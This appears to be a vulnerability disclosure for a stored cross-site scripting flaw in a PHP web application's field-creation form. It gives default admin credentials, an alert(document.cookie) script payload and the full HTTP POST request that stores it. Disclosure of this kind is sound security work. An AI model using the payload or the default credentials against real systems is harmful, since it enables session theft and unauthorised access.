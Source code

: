BUG_Author:sunyucheng

Vulnerability url: /mcw/classes/Master.php?f=save_field

POST form-data parameter name exists stored cross-site scripting

#### Steps to reproduce

1.Go to the admin Login

http://localhost/mcw/admin/login.php

Default Admin Access: Username: admin / Password: admin123

2.Click on "Field List" and Click on "+ Create New".

3.Put Payload into the Field Name

Payload:<script>alert(document.cookie)</script>

![image](https://github.com/sunyucheng0405/bug_report/blob/main/xss1.png)

4.Click on Save

Transmission packet

```
POST /mcw/classes/Master.php?f=save_field HTTP/1.1
Host: localhost
Content-Length: 555
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryWIRCYsmrR7zz9nDG
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/mcw/admin/?page=fields
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=3o0s1j8jkgqito3ks6rblb0g3f
Connection: close

------WebKitFormBoundaryWIRCYsmrR7zz9nDG
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryWIRCYsmrR7zz9nDG
Content-Disposition: form-data; name="category_id"

1
------WebKitFormBoundaryWIRCYsmrR7zz9nDG
Content-Disposition: form-data; name="name"

<script>alert(document.cookie)</script>
------WebKitFormBoundaryWIRCYsmrR7zz9nDG
Content-Disposition: form-data; name="description"

a
------WebKitFormBoundaryWIRCYsmrR7zz9nDG
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryWIRCYsmrR7zz9nDG--
```

5.Payload will trigger when a user visits on http://localhost/mcw/admin/?page=fields

![image](https://github.com/sunyucheng0405/bug_report/blob/main/xss2.png)
